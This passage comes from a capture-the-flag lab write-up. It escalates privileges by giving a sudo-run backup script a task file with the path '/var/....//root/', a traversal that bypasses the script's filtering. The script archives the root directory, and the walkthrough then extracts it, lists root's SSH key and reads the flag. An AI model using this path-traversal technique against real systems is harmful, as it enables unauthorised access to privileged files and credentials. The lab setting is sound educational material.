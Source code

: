 We can copy this file and modify the `directories_to_archive` field to backup the root directory! Make sure to remove the `exclude` field as well, or nothing will be archived.

```bash
martin@code:~/backups$ cat my_task.json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/var/....//root/"
        ]
}
```

Now... exploit!

```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh my_task.json
2025/08/31 07:09:34 🍀 backy 1.2
2025/08/31 07:09:34 📋 Working with my_task.json ...
2025/08/31 07:09:34 💤 Nothing to sync
2025/08/31 07:09:34 📤 Archiving: [/var/../root]
2025/08/31 07:09:34 📥 To: /home/martin/backups ...
2025/08/31 07:09:34 📦
martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar.bz2  code_var_.._root_2025_August.tar.bz2  my_task.json  task.json
```

I ended up moving my tar to the home directory because it kept getting deleted (not sure if it was by other players, or by some scripts). But we can unzip the bz archive to get our flag!

```bash
martin@code:~$ tar xjvf code_var_.._root_2025_August.tar.bz2 
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc
martin@code:~$ ls
backups  code_var_.._root_2025_August.tar.bz2  root
martin@code:~$ cd root
martin@code:~/root$ ls
root.txt  scripts
martin@code:~/root$ cat root.txt
<REDACTED>
```